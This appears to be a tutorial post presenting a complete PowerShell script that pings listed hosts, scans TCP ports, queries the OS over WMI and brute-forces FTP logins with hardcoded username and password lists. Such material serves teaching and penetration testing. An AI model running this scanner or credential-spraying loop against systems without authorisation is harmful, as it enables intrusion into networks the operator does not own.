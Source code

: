 ### "Offensive Powershell" - build your own TCP scanner and password spraying tool in PowerShell

Before we start, let me explain why I have used **"offensive Powershell"** in the title. Can Powershell be used to create offensive tools? Well, it’s just a scripting language, but it's Turing complete language, thus yes! it can be used for creating any tools, same with other similar scripting languages such as Python, Visual Basic Script or web based JavaScript, not to mention the "proper languages", compiled ones, like C, C++ or awesome C#. It's always about your goals. What I always say, these tools aren't "offensive" but people who use them and their intentions can be as productive as destructive! You must have heard about tools like MetaSploit (written in Ruby) which helps security and IT professionals identify security issues, verify vulnerability mitigations and providing true security risk intelligence or PowerShell Empire, post-exploitation framework written in PowerShell.

These tools are used by Red Teams and Pen-Testers to identify vulnerabilities and make your system more secure in general, but “every stick has two ends” and there will always be some evil mind, who will want to exploit your network with these smart programs I mentioned before.

Our goal here is to create a simple TCP port scanner and in PowerShell, with the OS detection!! HOWEVER, you will be able to detect installed OS, only if you have required permissions to do so and it works only for Windows systems.

```
cls
echo "==================================================================="
echo "A Simple port scanner with a pseudo Windows version detection"
echo "Only for windows system"
echo "FTP weak password check function has been added "
echo "USAGE: change ports and endPoint variables to scan your own network "
echo "==================================================================="

$ports=@(135,21,80)

$endPoint=@(
'192.168.1.11',
'192.168.1.100'
,'192.168.1.109',
'192.168.1.14',
'192.168.1.119'
)

$users=@('abakus','foobar','potato','johny_bravo','pandwoo','victim1','victim2')
$passwords=@('grthyu76uyrkyu','rthytetytuyuyiuyiyt','pazzword','qwerty123','kukikikokookukuyhgkh','victimpassword123')



echo "Please wait trying to identify your local IP address"

try{
$ipa=Get-NetIPConfiguration | ?{$_.interfacealias  -and $_.ipv4defaultgateway -ne $null`
-and $_.netadapter.status -ne 'Disconnected'} | select ipv4address
$localhost=$ipa.ipv4address | select -ExpandProperty ipaddress
echo "OK! your local IP identified $($ipa.ipv4address | select -ExpandProperty ipaddress)"
} catch {echo "Unable to identify your local IP :("}

$cred

function isAlive?{

$ping = New-Object System.Net.NetworkInformation.Ping

foreach($end in $endPoint){
    $open=@()

    $ping_status=$ping.Send($end)
    
    if($ping_status.Status -eq 'Success') {
        
        echo "-----------------------------------------"
        Write-Host "$end is alive" -BackgroundColor DarkBlue -ForegroundColor yellow
        
        
            if ($ping_status.Address -eq $localhost){
                
                
                    $obj= $(Get-WmiObject `
                    -ComputerName $end win32_operatingsystem |select `
                    caption,version,csname,osarchitecture)
                    identity? $obj


                
        
                } else {
                        try {
                            $cred=Get-Credential ''
                            
                            $obj= $(Get-WmiObject `
                            -ComputerName $end win32_operatingsystem -Credential $cred -ErrorAction SilentlyContinue |select `
                            caption,version,csname,osarchitecture)
                            identity? $obj
                            #echo "Your OS: $(Get-WmiObject -ComputerName $end -Credential $cred win32_operatingsystem -ErrorAction SilentlyContinue | select -ExpandProperty caption)"
            
                            }
                            catch{
                                $err = $_.Exception.Message
                                echo "UNKNOWN OS or incorrect USER/PASSWORD"
                            }
            }


       portCheck
        
        
        

    }else{
        echo "----------------------------------------"
        Write-Host "$end $($ping_status.Status) " -BackgroundColor red
        
    }
    
    

}


}


function portCheck{


foreach($p in $ports){
    
    $rpc=new-object System.Net.Sockets.TcpClient
        try {
             $rpc.Connect($end,$p)
             echo "PORT $p on $end IS OPEN"
             if ($p -eq 21){
                echo "Checking for WEAK password in FTP services"
                weak_ftp_pass
             }
                
             
        
        }catch{
              $err = $_.Exception.Message
              
              echo "PORT $p on $end IS CLOSED "
              #echo "error $err"
              
        }
    $rpc.close()
    
    }

}

function weak_ftp_pass{
    foreach($user in $users){
        foreach($pass in $passwords){
            
            try
                    {
                        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://"+$end)
                        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectoryDetails
                        #echo "Checking $user : $pass"
                        #sleep 1
                        $ftpRequest.Credentials = new-object System.Net.NetworkCredential($user, $pass)
                        $result = $ftpRequest.GetResponse()
                        $message = $result.BannerMessage + $result.WelcomeMessage
                        
                        Write-Host "Match found! for $user : $Pass" -BackgroundColor White -ForegroundColor Black
                        
                        #break #uncomment if you just need 1 password
                    }

                    catch
                    {
                        $err_ftp = $_.Exception.message
                        #echo "$err_ftp"
}
        
        }
    
    }echo ""
     echo "======= FTP BANNER START ==========="
     echo "$message"
     echo "======= FTP BANNER END ==========="
     echo ""


}

function identity? {
                    param(
                    [Parameter(Mandatory=$true)]$obj
                    )
                    

                    $os_properties=New-Object -TypeName psobject -Property @{
                        OS=$obj.caption
                        Version=$obj.version
                        Arch=$obj.osarchitecture
                        Hostname=$obj.csname
                    }
                
                   echo "==========================================="
                   echo "$os_properties"
                   echo "==========================================="
}

   isAlive?

```


